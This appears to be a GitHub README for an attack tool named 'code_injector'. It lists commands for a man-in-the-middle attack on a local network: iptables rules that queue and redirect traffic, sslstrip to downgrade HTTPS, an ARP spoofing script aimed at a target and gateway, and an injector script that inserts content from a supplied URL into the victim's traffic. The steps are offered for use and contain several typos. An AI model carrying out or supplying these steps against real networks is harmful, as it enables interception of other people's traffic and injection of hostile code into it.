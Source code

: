 # code_injector

* Install scupy
`pip install scapy`
* Install netfilterqueue
`pip install netfilterqueue`
* Create queue
`iptables -I INPUT -j NFQUEUE --queue-num 0`
`iptables -I OUTPUT -j NFQUEUE --queue-num 0`
* Enable port redirecting
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`
* Start sslstrip
`sslstip`
* Run arp spoofing script
`python arp_spoofing.py -t target_ip -g gateway_ip`
* Run dns_spoofing script
`python code_injector.py -u url_with_file`

Run script with --help to get help
`python code_injector.py --help`
